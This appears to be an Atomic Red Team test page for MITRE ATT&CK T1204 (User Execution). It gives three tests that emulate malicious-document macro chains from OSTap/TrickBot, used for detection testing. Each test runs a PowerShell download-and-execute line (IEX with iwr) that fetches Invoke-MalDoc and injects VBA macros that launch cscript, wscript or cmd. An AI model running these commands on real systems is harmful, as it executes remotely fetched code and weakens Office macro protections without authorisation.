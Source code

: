 # T1204 - User Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1204)
<blockquote>An adversary may rely upon specific actions by a user in order to gain execution. This may be direct code execution, such as when a user opens a malicious executable delivered via [Spearphishing Attachment](https://attack.mitre.org/techniques/T1193) with the icon and apparent extension of a document file. It also may lead to other execution techniques, such as when a user clicks on a link delivered via [Spearphishing Link](https://attack.mitre.org/techniques/T1192) that leads to exploitation of a browser or application vulnerability via [Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203). Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, and .cpl. 

As an example, an adversary may weaponize Windows Shortcut Files (.lnk) to bait a user into clicking to execute the malicious payload.(Citation: Proofpoint TA505 June 2018) A malicious .lnk file may contain [PowerShell](https://attack.mitre.org/techniques/T1086) commands. Payloads may be included into the .lnk file itself, or be downloaded from a remote server.(Citation: FireEye APT29 Nov 2018)(Citation: PWC Cloud Hopper Technical Annex April 2017) 

While User Execution frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on it.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OSTap Style Macro Execution](#atomic-test-1---ostap-style-macro-execution)

- [Atomic Test #2 - Maldoc choice flags command execution](#atomic-test-2---maldoc-choice-flags-command-execution)

- [Atomic Test #3 - OSTAP JS version](#atomic-test-3---ostap-js-version)


<br/>

## Atomic Test #1 - OSTap Style Macro Execution
This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. The .jse file in turn launches wscript.exe.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns 
References:
  https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | Path for the macro to write out the "malicious" .jse file | String | C:\Users\Public\art.jse|


#### Attack Commands: Run with `powershell`! 
```
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```


#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #2 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 
```
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```


#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #3 - OSTAP JS version
Malicious JavaScript executing CMD which spaws wscript.exe //e:jscript 
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | jse file to execute with wscript | Path | C:\Users\Public\art.jse|


#### Attack Commands: Run with `powershell`! 
```
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```


#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
